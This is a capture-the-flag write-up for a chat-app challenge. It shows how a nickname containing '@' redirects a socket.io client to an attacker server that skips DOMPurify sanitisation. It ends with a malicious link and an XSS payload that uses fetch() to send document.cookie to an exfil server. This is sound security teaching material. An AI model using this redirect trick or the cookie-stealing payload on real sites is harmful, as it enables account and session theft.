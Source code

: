 ### Chat UWU

## Walkthrough
- When we open ndex.js, we observe that int he below piece of code, if the chat room is 'DOMPurify' and msg.isHtml is true,
  the message is treated as HTML and inserted using innerHTML which makes it vulnerable to xss
```
socket.on('msg', function (msg) {
        let item = document.createElement('li'),
            msgtext = `[${new Date().toLocaleTimeString()}] ${msg.from}: ${msg.text}`;
        room === 'DOMPurify' && msg.isHtml ? item.innerHTML = msgtext : item.textContent = msgtext;
        messages.appendChild(item);
        window.scrollTo(0, document.body.scrollHeight);
    });
```
- Here comes the first problem that is the message and nickname are truncated and then purified,
 so the truncation itself does not allow us to inject anything that DOMPurify would normally catch

- Secondly isHtml is set to true if room is set to Dompurify.
```
socket.on('msg', msg => {
        msg.from = String(msg.from).substr(0, 16)
        msg.text = String(msg.text).substr(0, 140)
        if (room === 'DOMPurify') {
            io.to(room).emit('msg', {
                from: DOMPurify.sanitize(msg.from),
                text: DOMPurify.sanitize(msg.text),
                isHtml: true
            });
        } else {
            io.to(room).emit('msg', {
                from: msg.from,
                text: msg.text,
                isHtml: false
            });
        }
    });
```

### Solution

- Having an @ in our parameter. Everything before the @ is considered to be the username on the domain. http://127.0.0.1:58000/?nickname=@example.com/&room=DOMPurify is parsed as the domain example.com/&room=DOMPurify for the socket connection. At the same time, the get parameter room=DOMPurify allows us to still get into the innerHTML region in the client-side line of code

This makes socket.io connect to the attackers server while using room=DOMPurify as query parameetr.

## Creating exploit server
To do this we can just take the webserver code
1) Add these lines to accept connection cross-domain:
```
io.engine.on("headers", (headers, req) => {
headers["Access-Control-Allow-Origin"] = "*";
});
```
2) Remove the sanitazation of the message
```
 io.to(room).emit('msg', {
              from: msg.from,
              text: msg.text,
              isHtml: true
          });
```

## Sending the payload

1) Send our malicious link ```http://[chat_server]:58000/?nickname=x@[exploit_ip]:1231/?&room=DOMPurify```
2) Send an xss payload to get the cookies, such as ```<img src=x onerror="fetch('https://[exfil server]/'+btoa(document.cookie))">```
And we obtain the flag
